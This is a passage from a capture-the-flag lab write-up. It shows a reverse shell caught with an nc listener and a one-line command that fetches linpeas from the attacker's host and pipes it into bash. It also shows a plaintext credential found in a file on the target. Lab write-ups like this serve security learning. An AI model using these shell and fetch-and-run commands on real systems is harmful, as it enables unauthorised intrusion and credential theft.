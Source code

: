 ```bash
┌──(kali㉿kali)-[~/thm/internal]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.67.120] 43930
bash: cannot set terminal process group (1147): Inappropriate ioctl for device
bash: no job control in this shell
www-data@internal:/var/www/html/wordpress/wp-content/themes/twentyseventeen$ id
<tml/wordpress/wp-content/themes/twentyseventeen$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### Shell as aubreanna

The mysql creds in `wp-config.php` doesn't help much

Run linpeas to gather more info

```bash
curl 10.11.19.145/linpeas.sh|bash
```

![](/assets/obsidian/485e144ea01f87308d4d533cd0eb41a5.png)

![](/assets/obsidian/ae0aa72c29472d042bf1063120cd4657.png)

```bash
www-data@internal:/var/www/html/wordpress$ cat /opt/wp-save.txt
cat /opt/wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

